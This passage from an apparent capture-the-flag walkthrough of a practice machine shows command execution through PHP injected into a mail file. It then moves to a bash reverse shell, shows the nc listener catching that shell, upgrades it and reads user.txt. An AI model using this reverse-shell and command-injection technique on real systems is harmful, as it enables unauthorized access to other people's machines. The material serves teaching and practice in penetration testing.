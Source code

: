 Now I'll add `&cmd=id` to the end of the URL and refresh:

![](/img/image-20221015065240733.png)

That's code execution!

It's worth noting that `/var/mail/michael` seems to be cleared every two
minutes. This makes sense both so that players don't see each other's
exploits, and so that if someone puts bad PHP into that file, they don't
have to reset the box. Still, it can be a pain, and I'll likely have to
send the email many times.

#### Shell

I'll update my payload to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw). If I put this into
Firefox, I only need to URL encode the `&` (or else it will read that as
ending the parameter and starting a new one):

![](/img/image-20221015070227743.png)

This hangs, but at my listening `nc`, there's a shell as michael:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.166 48976
    bash: cannot set terminal process group (721): Inappropriate ioctl for device
    bash: no job control in this shell
    michael@trick:/var/www/market$



I'll upgrade it using the `script` / `stty`
[technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    michael@trick:/var/www/market$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    michael@trick:/var/www/market$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ;fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    michael@trick:/var/www/market$ 



I can also access `user.txt`:



    michael@trick:~$ cat user.txt
    520a7434************************

